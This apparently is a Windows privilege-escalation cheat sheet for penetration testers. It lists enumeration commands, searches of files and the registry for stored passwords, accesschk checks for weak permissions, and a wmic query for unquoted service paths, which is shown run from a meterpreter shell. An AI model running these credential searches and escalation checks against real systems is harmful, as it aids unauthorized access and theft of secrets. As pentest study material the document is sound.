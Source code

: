 **Enumeration**

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

hostname

net users

ipconfig /all

route print

arp -A

netstat -ano

netsh firewall show state	

netsh firewall show config

schtasks /query /fo LIST /v

tasklist /SVC

net start

DRIVERQUERY

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

dir /s *pass* == *cred* == *vnc* == *.config*

findstr /si password *.xml *.ini *.txt

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

sc qc Spooler

**Unquoted Service Paths**

# When executing any of the sysinternals tools for the first time the user will be presented with a GUI
add an extra command line flag to automatically accept the EULA.

accesschk.exe /accepteula 

# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

accesschk.exe -ucqv Spooler


**Unquoted Service Paths**
A vulnerability that occurs if a service executable path is not enclosed with quotation marks and contains space.

To identify these unquoted services you can run this command on Windows Command Shell:

wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

All services with unquoted executable paths will be listed:

meterpreter > shell
Process 4024 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
Vulnerable Service                                      Vulnerable Service                   C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe                   Auto       
C:\Users\testuser\Desktop>

**Sources:**

http://www.fuzzysecurity.com/tutorials/16.html

https://technet.microsoft.com/en-us/sysinternals/bb664922

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

